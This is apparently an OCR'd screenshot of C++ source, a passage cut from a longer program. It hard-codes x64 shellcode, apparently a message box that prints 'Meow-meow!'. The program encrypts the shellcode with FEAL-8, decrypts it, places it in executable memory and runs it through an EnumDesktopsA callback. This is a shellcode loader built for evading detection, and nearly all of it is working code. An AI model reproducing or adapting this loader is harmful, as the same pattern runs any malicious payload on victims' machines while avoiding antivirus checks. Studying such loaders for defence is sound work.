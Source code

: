 ```cpp
}

int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + (BLOCK_SIZE - my_payload_len % BLOCK_SIZE) % BLOCK_SIZE;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);  // pad with NOPs
  memcpy(padded, my_payload, my_payload_len);

  printf("original shellcode:\n");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  uint8_t key[8] = { 0x12, 0x34, 0x56, 0x78, 0x9A, 0xBC, 0xDE, 0xF0 };

  feal8_encrypt_shellcode(padded, pad_len, key);

  printf("encrypted shellcode:\n");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  feal8_decrypt_shellcode(padded, pad_len, key);

  printf("decrypted shellcode:\n");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  // allocate and execute decrypted shellcode
  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);

```